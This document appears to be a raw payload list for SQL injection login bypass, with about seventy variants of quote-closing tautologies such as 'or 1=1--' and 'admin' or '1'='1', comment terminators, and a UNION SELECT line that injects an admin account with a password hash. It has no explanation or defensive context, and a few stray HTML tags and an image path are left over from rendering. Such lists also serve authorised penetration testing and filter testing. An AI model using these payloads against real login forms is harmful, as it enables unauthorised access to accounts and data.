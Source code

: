 " or ""-"
" or "" "
" or ""&#x26;"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
<strong>admin" or 1=1--
</strong><strong>admin" or 1=1#
</strong>admin" or 1=1/*